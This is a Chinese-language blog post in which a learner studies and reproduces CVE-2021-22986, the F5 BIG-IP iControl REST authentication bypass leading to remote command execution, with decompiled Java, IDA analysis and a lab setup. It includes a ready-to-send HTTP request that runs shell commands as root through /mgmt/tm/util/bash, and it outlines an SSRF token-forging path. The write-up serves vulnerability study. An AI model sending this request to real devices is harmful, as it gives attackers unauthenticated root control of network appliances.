# CVE-2021-22986 - F5 BIG-IP iControl REST RCE and SSRF 学习与复现


#### 0x0 前言

1. 什么是F5 BIG-IP?
  F5 Big-IP是F5公司一款集成流量管理、DNS、出入站规则、web应用防火墙、web网关、负载均衡等功能的应用交付平台
2. 漏洞所在
  iControl REST 接口存在未认证远程命令执行漏洞
3. 漏洞影响
  该漏洞允许未认证的攻击者通过网络访问iControl REST接口，然后通过BIG-IP的管理界面和自身IP地址来执行任意系统命令，例如创建或删除文件以及禁用服务。这个漏洞仅能通过控制面板(control plane)利用，不能通过数据面板利用。该漏洞利用会导致整个系统陷入危险。BIG-IP系统的设备模式(Appliance mode)同样是可受攻击的。
4. reference
[360分析](https://cert.360.cn/report/detail?id=21f072510201a4d2999ad1756def39f6)
[Al1ex](https://cloud.tencent.com/developer/article/1850804)
[brandonshi123](https://y4y.space/2021/03/19/cve-2021-22986-f5-rest-unauthenticated-rce-analysis/)
[attackerkb](https://attackerkb.com/topics/J6pWeg5saG/k03009991-icontrol-rest-unauthenticated-remote-command-execution-vulnerability-cve-2021-22986)

之前接触的都是二进制软件安全，并没有接触过web安全，但因为之后会进入网络安全行业，所以需要拥有一些基础，对该技术方向拥有一个概念。因此以该CVE为学习契机进行网络安全的学习。
该博客是站在其他研究员做的结论的肩膀上编写的，很多内容和reference有重复，更重要的是，很多困难却又关键的地方，都是从他们那里直接获取结论，而不需要自己再去一步步分析才能得到结果，但是自己都尽量汲取知识，自己动手尝试了。同时在学习以及复现的过程中，反思得到以下结论，这些结论我觉得会对之后的研究深耕会有一定程度的帮助。

- 如何定位vulnerability?这是最难也是最关键的的一步，结合我学习的知识，对于一个大型软件来说，不可能人工代码审计去找攻击点，费时费力效率低，只能通过自动化的方法去获取vulnerability，例如fuzz技术，或者污点追踪，符号执行，甚至三种技术结合，这样才能有效定位vulnerability。从brandonshi123的reference博客中，他们是团队合作，首先fuzz了整个应用的目录查找到以非正确的认证报文获得了200 OK的response后才获取关键字，然后根据关键字才定位了bypass authorization发生的代码处。那么从关键字到定位关键代码处，这一个过程又需要人工分析大量代码才能完成定位，而这一过程又涉及到逆向工程，代码审计。综上，定位vulnerability是我在此次训练中没能完成的，以我的能力以及掌握的知识广度来说，我们办法完成定位，同时这也反映了，在之后的学习以及工作中，一定要提升定位vulnerability的能力，这同时也是一个安全研究员的能力强弱重要判定因素。
- 对于网络安全来说，知识面的广度与知识掌握的深度同样重要。广度让你能对更多信息更加敏感从而抓住更加细节的东西，而这些往往是关键所在，例如，apache服务的认证是通过mod_auth_pam.so库，如果知道这一点，那么就可以迅速定位。如果放大到更广的方向，网络安全范围很大，也许今天的软件是java写的，而我刚好掌握java知识，那么我可以更轻松的完成任务，但如果明天要分析的软件是rust写的，那么如果对rust特性以及rust应用特性的了解，同样可以意识到这些特性哪里容易出问题。对于逆向工程，很多软件使用不同框架，不同语言编写，这就要求研究员们对各种框架都有一个概念，或者说能通过经验判别出这是利用了某个框架的api，从而去学习这个框架然后才能进行下一步的逆向分析。但如果知识面广度不够，即使线索摆在了面前，也很难反应过来原来这就是漏洞的原因并抓住。

#### 0x1 漏洞靶机环境搭建
  官网注册账号，地区不要选择中国，然后下载16.0.1版本的virtual Edition，如下图
  
  下载完成后使用VMWARE打开，将BIG-IP系统导入。
  导入成功，启动虚拟机则有如下界面
  
  当第一次启动BIG-IP系统后会要求填写localhost login and password
  BIG-IP初始账号密码为root/default
  登陆成功后会要求立即更改root的密码
  
  我的密码设置为wangshidong166
  在命令行输入config，获取BIG-IP的IP信息
  
  来到浏览器，输入URL:https://192.168.124.16 得到如下界面
  
  这里username 填入admin，password 填入我们更改的新密码
  成功登录后会要求我们修改新密码。这里我们就修改成Wangshidong166即可
  再次登录即可进入系统界面。
  首先进入页面会需要key进行注册，这里可以通过[申请30天试用key](https://www.f5.com.cn/trials/big-ip-virtual-edition)网站获取
  
  若key验证成功则会获得Dossier，然后将该Dossier激活即可。
  
  
  激活成功则会出现协议，同意即可。
  接着会给出license key，我们要复制到Dossier界面下面的文本框中
  
  
  若能成功激活，则有如下界面
  
  如此就建立好了漏洞靶机。
#### 0x2 漏洞原理分析
##### 0x21 RCE
- HTTP请求如何到达后端服务器：当客户端发送一个HTTP请求后，首先会经过Apache,然后Apache做一些认证和头部检验，接着会将请求传递给使用JAVA编写的Jetty服务，在Jetty中做一些其他的身份认证事情，然后回应客户端。
- 在Big-IP中，**https:<host>/mgmt** URL就是用来管理的，因此他将会要求身份认证。在brandonshi123的reference中，作者团队通过fuzz发现https://<host>/mgmt/toc要求帐号和密码，但是却返回了200 OK，这个状态码表示请求成功。因此他们在服务器端以/mgmt/toc为关键词进行搜索，找到Apache的一个公共库mod_auth_pam.so,并判断authentication bypass就存在该so文件里
通过空的**HTTP X-F5-Auth-Token**和仅拥有username： **Authorization:Basic$(base64_encode("admin:"))** 基本身份认证头就可以绕过身份验证.基本的身份验证只检查username，而不是password
- API在 **https://<host>/mgmt/tm/util/bash** 执行系统命令,因此unauthenticated RCE 就是在此实现的。
- 在该应用中会发生两次认证，分别是apache和jetty服务的验证，因此有两种头部可以绕过验证。
在这里先给出结论，分析代码后，我们通过Burpsuit进行发包验证。
- 首先，我们需要从漏洞靶机获取两个验证所在的代码。第一个是Apache的认证代码，其存在mod_auth_pam.so中，其是Apache的共享库，我们从漏洞靶机的/usr/lib/httpd/modules文件夹中可以获取。第二个是Jetty的认证代码所在，其存在于漏洞靶机的/usr/share/java/rest/中，文件名为f5.rest.jar。
- 使用IDA打开mod_auth_pam.so文件，我们需要查找代码中使用了X-F5-Token字符串的代码，从而确定其在代码流程图的位置，首先在string window搜索Token，我们就可以直接查找到该字符串了，如下图
  
  接着双击该字符串，就能跳转至该字符串存在的段中，接着右键aXF5AuthToken，选择List cross reference to...选项找到调用该字符串的代码，得到如下图，双击跳转即可得到该字符串调用代码所在流程图的位置了
  
  
 接着来分析它的代码，这里调用了一个_apr_table_get的函数，这是Apache提供的c语言编程库，我们可以在网上搜索到该函数的作用
```C
  /**
  * Get the value associated with a given key from the table. After this call,
  * The data is still in the table
  * @param t The table to search for the key
  * @param key The key to search for
  * @return The value associated with the key, or NULL if the key does not exist.
  */
  APR_DECLARE(const char *) apr_table_get(const apr_table_t *t, const char *key);
```
- 由上述对apr_table_get函数的描述可知，如果该key存在该函数会从table中返回key的value，如果该key值不在table中存在就会返回空值。
  因此上述调用了X-F5-Auth-Token的代码就是在做一件事，由最后两行的**test eax,eax**(若返回NULL，即没有X-F5-Auth-Token字段，该指令会将ZF置1) 和 **jz loc_8766** 可以知，该事情就是判断X-F5-Auth-Token是否存在于table中。也就是说报文是否拥有X-F5-Auth-Token字段。
  接着看如果存在会执行什么代码，不存在又会执行什么代码
- 如果将IDA沿着红线追踪(即存在X-F5-Auth-Token字段的话)，会发现Apache的处理已经到了收尾阶段，如果程序运行无差错则会将报文发送给jetty服务。如下图:
  
- 如果IDA沿着绿线追踪(即没有X-F5-Auth-Token字段的话)，会看到Apache将会进行Basic Auth检验。首先会判断报文是否存在Authorization字段，然后进行Basic auth的检验，会对账号密码进行检验。
  
  
- 综上，Apache服务只检查X-F5-Auth-Token存不存在，而不检查正不正确，如果不存在就会去进行basic auth检验,否则就跳过basic auth的检验，直接将request传递给jetty服务，因此我们伪造空X-F5-Auth-token就可避免Apache对basic auth的检验。
- jetty server中 **f5.rest.workers.authz.AuthzHelper.class**
```java
public static BasicAuthComponents decodeBasicAuth(String encodedValue) {
   BasicAuthComponents components = new BasicAuthComponents();
   if (encodedValue == null) {
     return components;
   }

   String decodedBasicAuth = new String(DatatypeConverter.parseBase64Binary(encodedValue));
   int idx = decodedBasicAuth.indexOf(':');
   if (idx > 0) {
     components.userName = decodedBasicAuth.substring(0, idx);
     if (idx + 1 < decodedBasicAuth.length())
     {

       components.password = decodedBasicAuth.substring(idx + 1);
     }
   }

   return components;
 }
```
  将basic auth头进行解码，以":"作为分隔符，分割出username和password，然后存入component中
-  在**f5.rest.RestOperationIdentifier.class**
  ```java
  private static boolean setIdentityFromBasicAuth(RestOperation request) {
      String authHeader = request.getBasicAuthorization();
      if (authHeader == null) {
        return false;
      }
      AuthzHelper.BasicAuthComponents components = AuthzHelper.decodeBasicAuth(authHeader);
      request.setIdentityData(components.userName, null, null);
      return true;
    }
  }
```
```java
    public RestOperation setIdentityData(String userName, RestReference userReference, RestReference[] groupReferences) {
      if (userName == null && !RestReference.isNullOrEmpty(userReference)) {
        String segment = UrlHelper.getLastPathSegment(userReference.link);
        if (userReference.link.equals(UrlHelper.buildPublicUri(UrlHelper.buildUriPath(new String[] { WellKnownPorts.AUTHZ_USERS_WORKER_URI_PATH, segment }))))
        {
          userName = segment;
        }
      }
      if (userName != null && RestReference.isNullOrEmpty(userReference)) {
        userReference = new RestReference(UrlHelper.buildPublicUri(UrlHelper.buildUriPath(new String[] { WellKnownPorts.AUTHZ_USERS_WORKER_URI_PATH, userName })));
      }


      this.identityData = new IdentityData();
      this.identityData.userName = userName;
      this.identityData.userReference = userReference;
      this.identityData.groupReferences = groupReferences;
      return this;
    }
  ```
  如果userReference为空，就对userReference进行构造,即buildUriPath函数
  上述代码的buildUriPath就是用来拼接字符串的函数，只需知道这个功能即可
  ```java
userReference = new RestReference(UrlHelper.buildPublicUri(UrlHelper.buildUriPath(new String[] { WellKnownPorts.AUTHZ_USERS_WORKER_URI_PATH, userName })));
  ```
  里面的WellknownPorts.AUTHZ_USERS_WORKER_URI_PATH定义为
  ```java
public static final String AUTHZ_USERS_WORKER_URI_PATH = UrlHelper.buildUriPath(new String[] { AUTHZ_WORKER_URI_PATH, "users" });
  ```
  这里的AUTHZ_WORKER_URI_PATH又定义为
  ```java
public static final String AUTHZ_USERS_WORKER_URI_PATH = UrlHelper.buildUriPath(new String[] { AUTHZ_WORKER_URI_PATH, "users" });
  ```
  该class对request进行拆解获取其的变量，request变量内容如下
  ```java
  identityData.userName = 'admin';
  identityData.userReference = 'http://localhost/mgmt/shared/authz/users/admin'
  identityData.groupReference = null;
  ```
  我们可以看到identityData只保存了userName而没有保存Password。这是因为REST服务器默认Basic Authorization数据已经由Apache进行认证，所以不需要重新验证账号密码，所以在Jetty服务端就只根据用户名。
  F5.rest.jar中有authn和authz两种class。authn有BIG-IPAuthCookie以及其他与BIG-IP有关的cookie，而authz库中只有basic auth相关的方法函数。因此判断出若请求中有BIG-IP相关的Cookie则由authn认证，若有Authorization则有authz进行认证。
  - 在jetty服务中会发生第二个bypass authorization。该pypass发生在**f5.rest.workers.EvaluatePermissions.class**中
  ```java
  private static void completeEvaluatePermission(final RestOperation request, AuthTokenItemState token, final CompletionHandler<Void> finalCompletion) {
      final String path;
      // 1. 因为bypass中X-f5-Auth-Token为空，所以token没有值， 所以是null，绕过第一个F5 token的认证
      if (token != null) {
        if (token.expirationMicros.longValue() < RestHelper.getNowMicrosUtc()) {
          String error = "X-F5-Auth-Token has expired.";
          setStatusUnauthorized(request);
          finalCompletion.failed(new SecurityException(error), null);

          return;
        }
        request.setXF5AuthTokenState(token);
      }

      // 2. 此处的request是前面返回的request变量，即identityData中的数据，这个setBasicAuthFromIdentity仅将identity.userName重新进行编码，并不会查看密码，而且identityData里也没有存密码。
      request.setBasicAuthFromIdentity();

      //3. 由于uri不符合所以跳过以下两个比较
      if (request.getUri().getPath().equals(EXTERNAL_LOGIN_WORKER) && request.getMethod().equals(RestOperation.RestMethod.POST)) {
        finalCompletion.completed(null);
        return;
      }

      if (request.getUri().getPath().equals(UrlHelper.buildUriPath(new String[] { EXTERNAL_LOGIN_WORKER, "available" })) && request.getMethod().equals(RestOperation.RestMethod.GET)) {
        finalCompletion.completed(null);
        return;
      }

       //4. 此处的userRef是admin的ref，因为basic auth的用户名是admin,形式应该为identityData.UserReference
      final RestReference userRef = request.getAuthUserReference();

      //若userRef为空
      if (RestReference.isNullOrEmpty(userRef)) {
        String error = "Authorization failed: no user authentication header or token detected. Uri:" + request.getUri() + " Referrer:" + request.getReferer() + " Sender:" + request.getRemoteSender();
        setStatusUnauthorized(request);
        finalCompletion.failed(new SecurityException(error), null);
        return;
      }

      //因为admin是DefaultAdminRef， 所以认证成功
      if (AuthzHelper.isDefaultAdminRef(userRef)) {
        finalCompletion.completed(null);
        return;
      }
        //认证成功所以并不会执行以下所有代码
        ......(后面还有一段，但认证成功就不会执行了)
  ```
  对于第2条2.注释的setBasicAuthFromIdentity我们可以看下它是如何对Identity数据处理的
  ```java
  public void setBasicAuthFromIdentity() {
     if (this.authorizationData == null)
       return;
     this.authorizationData.basicAuthValue = AuthzHelper.encodeBasicAuth(getAuthUser(), null);
   }
  ```
再看getAuthUser的代码
```java
public String getAuthUser() {
  return (this.identityData == null) ? null : this.identityData.userName;
}
```
可以看出getAuthUser仅仅获取了identityData的userName数据
encodeBasicAuth实现如下:
```java
public static String encodeBasicAuth(String user, String password) {
  if (user == null)
    return null;
  String userPass = String.format("%s:%s", new Object[] { user, (password == null) ? "" : password });
  return DatatypeConverter.printBase64Binary(userPass.getBytes());
}
```
因为encodeBasicAuth的第二个参数传入的为NULL，因此encodeBasicAuth就是对user:null进行Base64的编码处理，可以看出其并没有采用Authorization中的用户名和密码，而是将密码置NULL
再到第三条3.注释的两个if代码，是进行Uri路径匹配，其中EXTERNAL_LOGIN_WORKER对应的是
```java
public static final String WORKER_URI_PATH = UrlHelper.buildUriPath(new String[] { "shared/", "authn", "login" });
```
即uri = shared/authn/login，但是我们访问的uri却是shared/authz/users/admin?是这个原因导致的不匹配吗。(还是说对比的uri是tm/util/bash，然后才导致的不匹配？)
当上述两个if的uri匹配失败则调用getAuthUserReference函数，又因为authUserReference非空，因此跳过下面的if
接着判断userRef是否是DefaultAdminRef。
isDefaultAdminRef函数代码如下:
```java
public static boolean isDefaultAdminRef(RestReference userReference) {
  RestReference defaultReference = getDefaultAdminReference();
  return (defaultReference != null && defaultReference.equals(userReference));
}
```
那么其中的就是getDefaultAdminReference就是获取DefaultAdminReference的关键了，其代码如下
```java
public static RestReference getDefaultAdminReference() {
  if (DEFAULT_ADMIN_NAME == null)
    return null;
  return new RestReference(UrlHelper.buildPublicUri(UrlHelper.buildUriPath(new String[] { WellKnownPorts.AUTHZ_USERS_WORKER_URI_PATH, DEFAULT_ADMIN_NAME })));
}
```
这里的DEFAULT_ADMIN_NAME定义如下
```java
public static String DEFAULT_ADMIN_NAME = "admin";
```
而AUHZ_USERS_WORER_URI_PATH在前面也提到过了。最后的DefaultAdminRef就是shared/authz/users/admin，与identity.userReference相同因此进入if并return，不会再执行后面的代码。
- 总结一下，首先http请求经过Apache服务时，发生一次身份认证，如果存在X-F5-Token就不会检验basic auth的正确性，与X-F5-Token的有效性也无关。request通过Apache传递到Jetty服务后，会判断X-F5-Token是否为空，为空即跳过第一步Jetty验证，接着会判断IdentityData.usereference是否为默认的admin的reference，如果是则通过验证，这第二次bypass就是利用了jetty服务不会对通过httpd认证的请求进行二次认证的缺陷。因此我们只需要伪造一个有着空的X-F5-Token以及用户名正确，而密码错误的报文即可绕过两次身份验证。
- 我们通过Burpsuit进行发包检测我们的原理分析是否正确
我们使用Burpsuit的proxy对https://<host>/mgmt/tm/util/bash进行抓包，然后在repeater中对该报文进行改包再发送进行测试。
- 当只添加X-F5-Token字段时

可以看到request可以发送给jetty服务。
- 当只添加Authorization字段时

可以看到此时并没有通过apache服务的验证，并且在下面的文本提示中显示"Unauthorized"，并且说明验证未通过。
这里有同学可能会疑惑，Authorization字段内容为什么是 Basic和一段加密密码呢？这是HTTP Basic Auth协议规定的。其规定的形式为
```
    Authorization: Basic base64encode(username+":"+password)
```
- 同时添加X-F5-Token和Authorization字段时

可以看到此时request也传递到了jetty服务中，通过对比实验，可以验证我们对漏洞原理的分析是正确的。
##### 0x22 SSRF
- 除了RCE漏洞，该软件还存在SSRF漏洞。
- 我们这里直接引用360的reference的结论，在f5.rest.jar中的**com.f5.rest.workers.authn.AuthnWorker#onPost**方法中增加了对loginReference.link的校验，那么由此可知onPost是SSRF漏洞的突破点。
- 当我们要构造漏洞利用报文，我们就需要知道需要构造哪些字段，哪些内容。在onPost方法中，如下图所示两个对象 - state与loginState，就是我们需要关注的输入点

- 前面的结论中对loginReference.link添加了校验，而该变量存在于state对象中，因此该变量可控。同时也是关键。

- 由上图可看到，sendPost会向state.loginReference发出请求。当post请求处理完成后未发生异常，就会执行completed()方法，该方法中会将访问loginReference.link返回的JSON数据根据字段赋值给loggedIn，然后会调用AuthWorker.generateToken()函数生成Token
- 再看generateToken()函数

在generateToken函数中会将loggedIn各字段赋值给token对象，如果访问的loginReference.link目标url返回的json数据中userReference字段为null时，就会执行到如下代码

收到的报文就会因此出现如下图所示的错误

因此在构造报文的时候，填写的loginReference.link目标url必须返回userReference字段不为null的json数据。
这里直接给出结论，loginReference.link: /shared/gossip(/mgmt/shared/gossip)符合条件
继续往下看可以发现生成的token会通过completed()方法完成映射和返回。在completed()方法中存在RestOperation.complete()方法，作为处理请求结束的代码。
- 因此如果想要获得返回Token的报文，就需要寻找符合以下条件的子类:
  1. 存在onPost方法可以处理POST请求
  2. onPost方法中可以控制执行流到RestOperation.complete()方法中
- 当response报文返回生成的token后，我们构造攻击报文，将其填入X-F5-Token中即可获取系统权限。
#### 0x3 漏洞利用
##### 0x31 RCE
因为我们已经得到结论，**https://<host>/mgmt/tm/util/bash** 路径是用来执行系统命令的，因此我们直接构造数据包，通过Burpsuit的Repeater功能进行发包获取权限，从而实现RCE漏洞利用。
构造的数据包如下:
```
POST /mgmt/tm/util/bash HTTP/1.1
Host: 192.168.1xx.1x
X-F5-Auth-Token:
Authorization: Basic YWRtaW46
Content-Length: 55

{
    "command": "run",
    "utilCmdArgs": "-c id"
}
```
Burpsuit结果，如下图:

response报文返回了我们通过该报文获取的系统权限，uid=0,gid=0也正是linux系统下root的id号，因此我们夺取了系统的root权限。那么我们只需要构造这样的报文，在添加相应的执行命令即可实现RCE漏洞的利用，能够对系统进行威胁了。

##### 0x32 SSRF
首先我们需要构造POST报文获取生成Token，然后使用该Token再次生成报文从而拿下系统权限。
- 获取Token的报文

得到的response报文

- 攻击报文

可以看到返回的报文body显示当前权限为root权限

#### 0x4 总结
总结？总结都在前言写完了。这次博客写的真的很过瘾！虽然SSRF还是弄不太懂，虽然很多关键结论都是直接采用其他师傅的，而这些关键结论，以我现在的能力也很难获取，但是这次学习以及实现，是我第一次复现CVE，也让我深刻感受到，一个成果的获取，真的很困难，对能力的要求也非常的高，安全研究的路，崎岖。即便如此，我仍然愿意走下去。

